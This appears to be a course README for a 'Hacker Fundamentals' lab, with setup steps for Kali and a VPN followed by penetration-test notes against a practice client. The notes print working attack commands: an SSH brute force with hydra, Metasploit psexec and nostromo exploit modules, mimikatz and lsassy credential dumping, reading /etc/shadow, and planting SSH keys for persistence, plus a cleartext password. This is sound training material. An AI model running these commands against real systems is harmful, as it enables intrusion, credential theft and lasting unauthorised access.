 # Hacker-Fundamentals
Welcome to the Hacker Fundamentals lab setup page !

To be able to participate in the lab exercises and CTF in this course you will need to have:
* An OS on which you will download a VM 
* A VM, either VirtualBox or VMWare 

1) Downloading a VM 
* If you would like to download VirtualBox, please see the instructions at the following URL: 
  https://www.virtualbox.org/wiki/Downloads
* If you would like to download VirtualBox, please see the instructions at the following URL:
  https://www.vmware.com/products/workstation-player/workstation-player-evaluation.html

2) Download Kali VM Image
A Kali VM image has been provided to you at <URL>, depending on your VM of choice please download the appropriate file (VirtualBox or VMWare)
Once the file has downloaded, unzip the file contents and click on the kali-linux-rolling-virtualbox-amd64.vbox file in order to load the Kali image into VirtualBox and if you use VMWare, drag the file to the VMWare application.

3) Downloading a VPN profile 
On your Kali VM, Please visit <URL> , and download the vpn profile that the course instructors have assigned to you. 

4) Load the VPN profile 
Once the VPN profile has been downloaded on your Kali image, open terminal and type the following command :  ``` sudo openvpn --config your_vpn_file.ovpn ```
**Do not close the terminal window where you established a VPN connection, as that will close the connection**

5) Test the VPN connection
Open a new terminal window and type the following command: ```ping IP```, 
if you receive an ICMP response, the connection works and you are now in the lab environment.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
  Captain Crunch - Network Pentest
May 29, 2023
--------------------------------

Information provided by client:

domain: captaincrunch.co
IP networks: 10.10.10.0/24, 10.10.30.0/24

blee : 3120f299755272e11e898989265a2196


External Reconnaissance
-----------------------

All whois information redacted by registrar

Monica Garfield works as developer at CC
	Mentions foxtrot container on LinkedIn
	DNS recon found foxtrot.captaincrunch.co host at 64.226.83.128

	Able to login to foxtrot (10.10.10.11) via ssh brute force as Monica!

	hydra -l monica -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.11:22 -t 4

	What if Monica is a user on a Windows system that she does dev work from?

	Let's try using metasploit as her to login to a windows hosts

	msfconsole
	search psexec
	use windows/smb/psexec
	set rhosts 10.10.30.11
	set smbdomain captaincrunch.co
	set smbuser monica.garfield
	set smbpass tinkerbell
	exploit



Mimikatz:

	shell
	cd c:\tools
	.\mimikatz.exe
	sekurlsa::logonpasswords

Impacket:

	impacket-psexec monica.garfield@10.10.30.11


DNS Recon
---------

fierce --domain captaincrunch.co
gobuster dns -d captaincrunch.co -w /usr/share/wordlists/amass/subdomains.lst -i

charlie.captaincrunch.co [64.226.83.119]
delta.captaincrunch.co [64.226.105.183]
echo.captaincrunch.co [64.226.83.135]
foxtrot.captaincrunch.co [64.226.83.128]
golf.captaincrunch.co [64.226.102.67]
india.captaincrunch.co [64.226.110.16]
juliet.captaincrunch.co [142.93.105.226]


Commands used:

cat external | cut -d " " -f 2 | tr -d "[" | tr -d "]" > external.ips
nmap -iL external.ips -Pn --top-ports=1000 --open -oN external.nmap


Internal Recon
--------------

Discovery:
	nmap -sn 10.10.10.0/24 > internal
	nmap -sn 10.10.30.0/24 >> internal
	cat internal | grep report | cut -d " " -f 5 > internal.ips

Port scans:

	nmap -iL internal.ips --top-ports=1000 --open -oN internal-top-ports.nmap

With Metasploit:

	msfdb init
	msfconsole
	db_nmap 10.10.10.0/24 -p-
	db_nmap 10.10.30.0/24 -p-


Interesting Services:

ssh is open (10.10.10.2, 10.10.10.3, 10.10.10.8, 10.10.10.9)
12345 open on 10.10.10.12
31337 open on 10.10.10.9 (likely web server httpd 2.4.38)
	Running wordpress
	WPScan confirmed vulnerabilities 
8000 is open  on 10.10.10.9
55555 open 10.10.10.13 (simplehttpserver ?)
	/credit contains ssh key for tigerwoods
	dirb http://10.10.10.13:55555 /usr/share/wordlists/dirb/small.txt

10.10.30.10 likely domain controller (domain: captaincrunch.co)
Windows hosts (10.10.30.11, 10.10.30.12)
6666 open on 10.10.30.11
5984 and 49153 open on 10.10.30.20 (unusual ports = interesting)
	5984 running couchdb 1.6.0 (RCE available!!)
	49153 running nostromo 1.9.6 (RCE available!!!)
		Exploited with Metasploit
		msfconsole
		use (multi/http/nostromo_code_exec
		set rhost 10.10.30.20
		set rport 32768
		set lhost tun0
		exploit
		

SSH keygen

	ssh-keygen
	enter - enter - enter
	ssh monica@10.10.10.11    tinkerbell
	nano ~/.ssh/authorized_keys
	paste PUBLIC key here
	exit 
	ssh -i private_key monica@10.10.10.11


Linux PrivEsc
	
	./linpeas.sh
	sudo -l
	sudo cat /etc/shadow

Tigerwoods lateral movement:

	ls -la
	chmod 600 tigerwoodskey
	ssh -i tigerwoods@10.10.10.10
	Try to put your private key in authorized_keys like before to get access with your private key

Windows Post Exploitation:

	net user
	net user /domain
	net group "Domain Admins" /domain
	net user ashlie.gwenette /domain


Commands:

	wpscan --url http://10.10.10.9:31337
	nikto -host 10.10.10.13 -port 55555

 	crackmapexec smb 10.10.30.11 -u monica.garfield -p tinkerbell -M lsassy
